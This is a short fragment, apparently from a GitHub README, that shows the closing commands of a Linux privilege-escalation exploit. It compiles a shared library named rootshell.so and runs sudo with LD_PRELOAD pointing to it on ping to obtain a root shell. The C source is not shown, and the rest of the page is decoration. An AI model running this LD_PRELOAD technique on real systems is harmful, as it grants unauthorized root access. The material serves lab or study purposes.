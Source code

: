```bash
EOF

gcc -fPIC -shared -o /home/saad/rootshell.so /home/saad/rootshell.c -nostartfiles
sudo LD_PRELOAD=/home/saad/rootshell.so /usr/bin/ping -c 1 127.0.0.1
```

---

<div align="center">

![Snake animation](https://github.com/Platane/snk/raw/output/github-contribution-grid-snake.svg)
